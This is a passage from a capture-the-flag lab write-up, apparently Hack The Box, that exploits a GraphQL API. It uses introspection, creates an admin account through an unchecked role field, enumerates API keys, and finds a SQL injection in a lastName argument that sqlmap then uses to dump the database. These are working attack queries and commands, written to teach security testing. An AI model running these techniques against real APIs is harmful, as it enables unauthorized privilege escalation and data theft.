This output highlights several high-impact issues, including unrestricted introspection and multiple denial-of-service vectors caused by excessive query complexity.

Another useful tool is `InQL`, a Burp Suite extension available through the **BApp Store**. `InQL` adds a dedicated `InQL` tab to Burp Suite, along with GraphQL-specific functionality in Proxy and Repeater.

This significantly simplifies the modification and testing of GraphQL queries by removing the need to manually handle JSON syntax.


`InQL` also includes a built-in scanner that can automatically generate queries to extract introspection data related to available queries and mutations.

To run the InQL scanner:

`Extensions` &rarr; `InQL - GraphQL Scanner` &rarr; `Generate queries wit InQL Scanner`



All extracted schema and introspection information is displayed within the `InQL` tab for the scanned host:



---

## Exploitation - Example

### Enumerating Available Mutations

Using GraphQL introspection, we enumerate all available mutations exposed by the API:

```graphql
query {
  __schema {
    mutationType {
      name
      fields {
        name
        args {
          name
          defaultValue
          type {
            ...TypeRef
          }
        }
      }
    }
  }
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}
```

**Reponse:**

```graphql
{
  "data": {
    "__schema": {
      "mutationType": {
        "name": "Mutation",
        "fields": [
          {
            "name": "addEmployee",
            "args": [
              {
                "name": "input",
                "defaultValue": null,
                "type": {
                  "kind": "NON_NULL",
                  "name": null,
                  "ofType": {
                    "kind": "INPUT_OBJECT",
                    "name": "AddEmployeeInput",
                    "ofType": null
                  }
                }
              }
            ]
          },
          {
            "name": "addProduct",
            "args": [
              {
                "name": "input",
                "defaultValue": null,
                "type": {
                  "kind": "NON_NULL",
                  "name": null,
                  "ofType": {
                    "kind": "INPUT_OBJECT",
                    "name": "AddProductInput",
                    "ofType": null
                  }
                }
              }
            ]
          },
          {
            "name": "addCustomer",
            "args": [
              {
                "name": "input",
                "defaultValue": null,
                "type": {
                  "kind": "NON_NULL",
                  "name": null,
                  "ofType": {
                    "kind": "INPUT_OBJECT",
                    "name": "AddCustomerInput",
                    "ofType": null
                  }
                }
              }
            ]
          }
        ]
      }
    }
  }
}
```

The API exposes three mutations:

- `addEmployee`
- `addProduct`
- `addCustomer`

The `addEmployee` mutation is of particular interest, as it may allow **privilege escalation**. This mutation requires an `AddEmployeeInput` object. To determine which fields can be supplied, we enumerate the input object definition:

```graphql
{   
  __type(name: "AddEmployeeInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

**Response:**

```graphql
{
  "data": {
    "__type": {
      "name": "AddEmployeeInput",
      "inputFields": [
        {
          "name": "username",
          "description": null,
          "defaultValue": null
        },
        {
          "name": "employeeId",
          "description": null,
          "defaultValue": null
        },
        {
          "name": "role",
          "description": null,
          "defaultValue": null
        }
      ]
    }
  }
}
```


The `AddEmployeeInput` object contains the following fields:

- `username`
- `employeeId`
- `role`

The presence of a user-controllable `role` field strongly suggests a **privilege escalation vulnerability**, as no restrictions are enforced at the schema level.

Before exploiting this, we query existing employees to understand how employee data is stored.

```graphql
{
  allEmployees {
    id
    username
    employeeId
    role
  }
}
```

**Response:**

```graphql
{
  "data": {
    "allEmployees": [
      {
        "id": "RW1wbG95ZWVPYmplY3Q6MQ==",
        "username": "vautia",
        "employeeId": 1337,
        "role": "employee"
      },
      {
        "id": "RW1wbG95ZWVPYmplY3Q6Mg==",
        "username": "pedant",
        "employeeId": 1338,
        "role": "employee"
      },
      {
        "id": "RW1wbG95ZWVPYmplY3Q6Mw==",
        "username": "21y4d",
        "employeeId": 1339,
        "role": "manager"
      }
    ]
  }
}
```



The `id` field appears to be Base64-encoded. However, this value is generated server-side and does not need to be supplied when creating a new employee.

We first attempt to create a standard employee:

```graphql
mutation {
  addEmployee(input: {username: "sam", employeeId: 1340, role: "employee"}) {
    employee {
      id
      username
      employeeId
      role
    }
  }
}
```

**Response:**

```graphql
{
  "data": {
    "addEmployee": {
      "employee": {
        "id": "RW1wbG95ZWVPYmplY3Q6NA==",
        "username": "sam",
        "employeeId": 1340,
        "role": "employee"
      }
    }
  }
}
```



Next, we attempt to assign an elevated role by setting `role` to `admin`:

```graphql
mutation {
  addEmployee(input: {username: "administrator", employeeId: 1340, role: "admin"}) {
    employee {
      id
      username
      employeeId
      role
    }
  }
}
```

**Response:**

```graphql
{
  "data": {
    "addEmployee": {
      "employee": {
        "id": "RW1wbG95ZWVPYmplY3Q6NQ==",
        "username": "administrator",
        "employeeId": 1340,
        "role": "admin"
      }
    }
  }
}
```



This confirms an **unauthenticated privilege escalation vulnerability**. However, since the user-facing portion of the application is disabled, logging in as this user is not possible.

We therefore continue by probing the API for SQL injection vulnerabilities.
### SQL Injection

Using introspection and the GraphiQL **Document Explorer**, we identify queries that accept user-controlled arguments, making them potential injection points:

- `node(id: ID!)`
- `employeeByUsername(username: String!)`
- `productByName(name: String!)`
- `allCustomers(apiKey: String!)`
- `customerByName(apiKey: String!, lastName: String!)`


Each query is tested individually.

SQL injection attempt:

```graphql
{
  employeeByUsername(username: "administrator'") {
    id
    username
    employeeId
    role
  }
}
```

**Not injectable:**

```graphql
{
  "data": {
    "employeeByUsername": null
  }
}
```

**SQL injection attempt:**

```graphql
{
  node(id: "1'") {
    id
  }
}
```

**Not injectable:**

```graphql
{
  "data": {
    "node": null
  }
}
```

**SQL injection attempt:**

```graphql
{
  productByName(name: "gpu'") {
    id
    name
    stock
  }
}
```

**Not injectable:**

```graphql
{
  "data": {
    "productByName": null
  }
}
```

The remaining queries require an `apiKey`. We enumerate valid API keys using the following query:

**API keys:**

```graphql
{
  activeApiKeys {
    id
	  role
    key
  }
}
```

**Response:**

```graphql
{
  "data": {
    "activeApiKeys": [
      {
        "id": "QXBpS2V5T2JqZWN0OjE=",
        "role": "guest",
        "key": "fbb64ce26fbe8a8d8d6895b8e6ba21a3"
      },
      {
        "id": "QXBpS2V5T2JqZWN0OjI=",
        "role": "guest",
        "key": "9cf8622bbc9fdc78f245663e08e5b4c1"
      },
      {
        "id": "QXBpS2V5T2JqZWN0OjM=",
        "role": "admin",
        "key": "0711a879ed751e63330a78a4b195bbad"
      }
    ]
  }
}
```

**SQL injection attempt:**

```graphql
{
allCustomers(apiKey: "0711a879ed751e63330a78a4b195bbad'") {
    id
		firstName
  	lastName
  	address
  	id
  }
}
```

**Not injectable:**

```graphql
{
  "data": {
    "allCustomers": null
  }
}
```

We first enumerate customers using a valid admin API key:

```graphql
{
allCustomers(apiKey: "0711a879ed751e63330a78a4b195bbad") {
    id
		firstName
  	lastName
  	address
  	id
  }
}
```

**Response:**

```graphql
{
  "data": {
    "allCustomers": [
      {
        "id": "Q3VzdG9tZXJPYmplY3Q6MQ==",
        "firstName": "Antony",
        "lastName": "Blair",
        "address": "13 Hide A Way Road. Winter Park, FL 32789"
      },
      {
        "id": "Q3VzdG9tZXJPYmplY3Q6Mg==",
        "firstName": "Margaret",
        "lastName": "Liverman",
        "address": "4797 New Street. Coos Bay, OR 97420 "
      },
      {
        "id": "Q3VzdG9tZXJPYmplY3Q6Mw==",
        "firstName": "Billy",
        "lastName": "Sawyer",
        "address": "587 Hickory Lane. Washington, DC 20017 "
      }
    ]
  }
}
```

We then attempt SQL injection via the `lastName` parameter:

```graphql
{
customerByName(apiKey: "0711a879ed751e63330a78a4b195bbad", lastName: "Sawyer'") {
    id
		firstName
  	lastName
  	address
  	id
  }
}
```

This results in a database error:

```graphql
{
  "errors": [
    {
      "message": "(pymysql.err.ProgrammingError) (1064, \"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Sawyer'' \\n LIMIT 1' at line 3\")\n[SQL: SELECT customer.id AS customer_id, customer.`firstName` AS `customer_firstName`, customer.`lastName` AS `customer_lastName`, customer.address AS customer_address \nFROM customer \nWHERE lastName='Sawyer'' \n LIMIT %(param_1)s]\n[parameters: {'param_1': 1}]\n(Background on this error at: https://sqlalche.me/e/20/f405)",
      "locations": [
        {
          "line": 1,
          "column": 2
        }
      ],
      "path": [
        "customerByName"
      ]
    }
  ],
  "data": {
    "customerByName": null
  }
}
```


This confirms a **SQL injection vulnerability** in the `lastName` argument.

Using the captured request, we enumerate the backend database:

```bash
sqlmap -r req.txt --banner --current-user --current-db --is-dba --batch
```

- Banner: `10.11.6-MariaDB-0+deb12u1`
- Current user: `db@localhost`
- Current database: `db`
- Is DBA: `false`


We enumerate all tables:

```bash
sqlmap -r req.txt --tables -D db --batch
```

There are five tables:

- `api_key`
- `customer`
- `employee`
- `flag`
- `product`


Finally, we dump the `flag` table:

```bash
sqlmap -r req.txt -D db -T flag --dump --batch
```

The flag is successfully retrieved:

```
HTB{f1d663c11e6db634e1c9403d0e8e3a35}
```


